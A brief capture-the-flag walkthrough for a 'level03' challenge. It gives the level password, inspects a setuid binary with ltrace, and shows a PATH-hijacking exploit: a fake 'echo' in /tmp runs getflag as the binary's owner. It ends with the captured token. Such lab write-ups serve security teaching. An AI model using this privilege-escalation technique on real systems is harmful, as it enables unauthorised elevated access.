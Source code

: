 `su level03 -> kooda2puivaav1idi4f57q8iq`

Check the permissions of the file:

```
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

The binary is owned by flag03, and it prints "Exploit Me". it also has the s permission, which means it will be run as flag03, so we would like this binary to execute getflag.

With ltrace level03, we see that this executable runs the line: system("/usr/bin/env echo Exploit me").

We try to modify echo with `echo getflag > /bin/echo` but i obviously doesn't work.

One exploit that is present in the level03 executable, is that echo is not designed with an absolute path, so we could make it use our own echo.

```
echo getflag > /tmp/echo
chmod +x /tmp/echo
export PATH="/tmp:$PATH"
./level03
```

./level03 -> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus